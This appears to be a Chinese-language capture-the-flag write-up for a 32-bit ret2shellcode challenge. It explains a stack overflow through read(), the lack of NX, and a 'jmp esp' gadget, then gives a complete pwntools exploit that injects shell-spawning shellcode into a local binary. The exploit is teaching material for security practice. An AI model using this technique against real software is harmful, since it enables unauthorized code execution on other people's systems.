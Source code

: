 read栈溢出

![image-20220317191351791](Self-help_Clown.assets/image-20220317191351791.png)

NX保护也没有开启

![image-20220317191401969](Self-help_Clown.assets/image-20220317191401969.png)

hint函数里面还包含一个jmp esp指令

那么就可以判断是shellcode注入了, 可以直接用pwntools的shellcode生成函数, 主要考虑的就是如何跳转到栈中的shellcode, 其实也挺简单的

![image-20220317191416266](Self-help_Clown.assets/image-20220317191416266.png)

当执行到ret时, 就会跳转到jmp esp指令处去执行, 同时当前esp会指向shellcode处, 这样执行jmp后就会控制EIP到shellcode执行

#### Exploit

```python
from pwn import*
context(os="linux", arch="i386")
o = process('./ret2shellcode')


jmp_esp = 0x804843C
shellc = asm(shellcraft.sh())
payload = 'a'*28 + p32(jmp_esp) + shellc
o.sendline(payload)
o.interactive()
```
